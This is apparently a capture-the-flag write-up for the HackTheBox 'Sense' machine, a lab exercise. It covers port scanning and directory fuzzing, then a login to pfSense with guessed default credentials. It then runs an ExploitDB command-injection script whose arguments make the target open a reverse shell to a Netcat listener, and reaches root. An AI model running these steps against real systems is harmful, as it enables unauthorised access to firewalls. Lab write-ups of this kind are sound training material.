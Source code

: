 # HackTheBox | Sense

## Initial TCP Nmap Scan

```
Nmap scan report for sense.htb (10.10.10.60)
Host is up (0.072s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

## Full TCP Nmap Scan

```
Nmap scan report for 10.10.10.60
Host is up (0.081s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

## Initial Thoughts Based On Nmap Scans

Looking at the ports we are given `HTTP 80` and `HTTPS 443`. Looking at port 80 on the Nmap scan, we can see that it tried to do some sort of redirect to `https://sense.htb`. This most likely means that if we were to just type in `http://10.10.10.60`, we will get redirected to `https://10.10.10.60`. So in reality, we may just be looking at one port to enumerate which is `HTTPS 443`. Regardless, it is a website we are going to enumerate. Similar to other boxes where we enumerated web services, we will be running a `Gobuster/ffuf` against the web service to see if we can find any other directories, and then we will manually enumerate for any service versions or anything else of interest. With that, let's get into enumerating HTTP/HTTPS.

## 80/443 - HTTP/HTTPS | Enumeration 

Going to `https://10.10.10.60` we are given a web service that is running `pfSense`. 

![image-20210614124911094](C:\Users\brice\AppData\Roaming\Typora\typora-user-images\image-20210614124911094.png)

`pfSense` is a firewall/router computer software that runs on `FreeBSD`. Before I go and start to manually enumerate this service, I start `ffuf` to scan for any directories/files.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ -e .txt,.pdf,.html
```

The `-w` flag specifies a path to a wordlist, `-u` is the target URL, and `-e` specifies extensions you want to use separated by commas. Since I am not completely sure what this service has in terms of file extensions, I just used some file extensions that may be more universal to any web service such as `.txt, .pdf, and .html`. 

While `ffuf` is running, I decided to go and try to search up "pfSense default credentials" on Google. The default credentials for pfSense is `admin:pfsense`. I tried these credentials against the login page and I got nothing. I started trying more credentials such as `admin:admin` `admin:password`, etc. and got nothing. I did get something out of it though which is the fact that my IP address got banned. I started sitting there for quite a bit wondering what the hell happened but turns out my IP was banned. Probably not the smartest idea to try to go and attempt a hefty amount of failed login requests against a firewall. I went ahead and reset the box and ran my `ffuf` again and just tried looking at source code while `ffuf` was scanning. I didn't really find anything of interest but while I was searching around for awhile I did find two interesting files that `ffuf` discovered which is `changelog.txt` and `system-users.txt`. Navigating to `https://10.10.10.60/changelog.txt` shows the following output:

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

We see some information about a security changelog. Seems that they have patched 2 out of 3 vulnerabilities so most likely this service is still vulnerable. Navigating to `https://10.10.10.60/system-users.txt` shows the following output:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

We get some credentials which is `Rohit:company defaults`. Company defaults obviously isn't the password but now we at least have a username we can test. I tried credentials such as `rohit:password` and things of that nature, but I stayed vigilant since I know if I do too many failed login attempts my IP is gonna get banned again. I decided to try `rohit:pfsense` and it worked!

![image-20210614132049905](C:\Users\brice\AppData\Roaming\Typora\typora-user-images\image-20210614132049905.png)

Looking at the pfSense dashboard we are given a version number `2.1.3-RELEASE`. Noting that the `changelog.txt` file mentioned they did not patch all the vulnerabilities, let's go ahead and do a Google search for "pfSense 2.1.3 exploit" I find an [ExploitDB](https://www.exploit-db.com/exploits/43560) page for "pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection". I go ahead and download this Python script to my host and run this command:

```
python3 43560.py help
```

```
root@kali-[~/htb/sense/exploits]python3 43560.py help
usage: 43560.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT] [--username USERNAME] [--password PASSWORD]
43560.py: error: unrecognized arguments: help
```

We can see how to properly use this script. it asks for `--rhost, --lhost, --lport, --username, and --password`. We have all of these so let's put them in.

```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.36 --lport 1337 --username rohit --password pfsense
```

Before we execute this script, let's set up a Netcat listener on port 1337.

```
nc -lvnp 1337
```

```
root@kali-[~]nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.60] 53182
sh: can't access tty; job control turned off
# whoami && id
root
uid=0(root) gid=0(wheel) groups=0(wheel)
```

And we are the root user! No need for privilege escalation on this box since this application must have been running as the root user. If you want to go more into detail on how and why this exploit works, I would highly suggest looking into [IppSec's walkthrough of Sense](https://www.youtube.com/watch?v=d2nVDoVr0jE) as they manually exploit this vulnerability we did.
